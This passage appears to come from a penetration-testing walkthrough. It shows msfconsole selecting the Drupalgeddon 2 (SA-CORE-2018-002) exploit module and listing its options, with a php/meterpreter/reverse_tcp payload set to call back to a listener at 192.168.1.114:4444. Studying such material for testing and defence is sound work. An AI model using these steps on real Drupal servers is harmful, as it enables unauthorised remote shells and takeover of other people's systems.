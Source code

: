 ```
   9     \_ target: Drupal 7.x (Linux Dropper)                           .                .          .      .
   10    \_ target: Drupal 8.x (PHP In-Memory)                           .                .          .      .
   11    \_ target: Drupal 8.x (PHP Dropper)                             .                .          .      .
   12    \_ target: Drupal 8.x (Unix In-Memory)                          .                .          .      .
   13    \_ target: Drupal 8.x (Linux Dropper)                           .                .          .      .
   14    \_ AKA: SA-CORE-2018-002                                        .                .          .      .
   15    \_ AKA: Drupalgeddon 2                                          .                .          .      .
```

Choosing the module and showing options:

```
msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > show options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.114    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)



View the full module info with the info, or info -d command.
```
